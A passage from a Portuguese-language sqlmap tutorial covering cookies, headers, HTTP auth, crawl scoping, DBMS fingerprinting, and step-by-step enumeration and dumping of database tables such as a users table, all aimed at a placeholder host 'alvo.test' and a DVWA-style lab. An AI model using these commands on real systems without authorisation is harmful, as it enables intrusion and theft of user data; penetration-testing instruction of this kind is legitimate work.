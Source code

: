 ## 5) Cookies, sessões e headers

Se o alvo exige login (ex.: DVWA):

```bash
sqlmap -u "http://alvo.test/vuln.php?id=1" \
  --cookie="PHPSESSID=abc123; security=low" \
  --batch
```

Headers customizados:

```bash
sqlmap -u "http://alvo.test" --headers="X-Api-Key: 123\nX-Requested-With: XMLHttpRequest"
```

Autenticação HTTP:

```bash
sqlmap -u "http://alvo.test/area" --auth-type=basic --auth-cred="user:senha"
```

## 6) Escopo e crawling

### Restringir a um domínio e varrer links

```bash
sqlmap -u "http://alvo.test" --crawl=2 --scope="alvo\.test" --batch
```

* `--crawl=2`: segue links até 2 níveis.
* `--scope`: só testa URLs que casem com a regex (evita sair do escopo).

## 7) Fingerprinting e foco no SGBD

Para acelerar (se você suspeita do SGBD):

```bash
sqlmap -u "http://alvo.test?id=1" --dbms=mysql --batch
```

Fingerprint detalhado:

```bash
sqlmap -u "http://alvo.test?id=1" --fingerprint
```

## 8) Enumeração (dbs, tabelas, colunas) e dump

Fluxo clássico de extração:

```bash
# 1) Listar bancos
sqlmap -u "http://alvo.test?id=1" --dbs

# 2) Listar tabelas de um banco
sqlmap -u "http://alvo.test?id=1" -D meu_banco --tables

# 3) Listar colunas de uma tabela
sqlmap -u "http://alvo.test?id=1" -D meu_banco -T usuarios --columns

# 4) Fazer dump seletivo
sqlmap -u "http://alvo.test?id=1" -D meu_banco -T usuarios -C id,login,email --dump
```
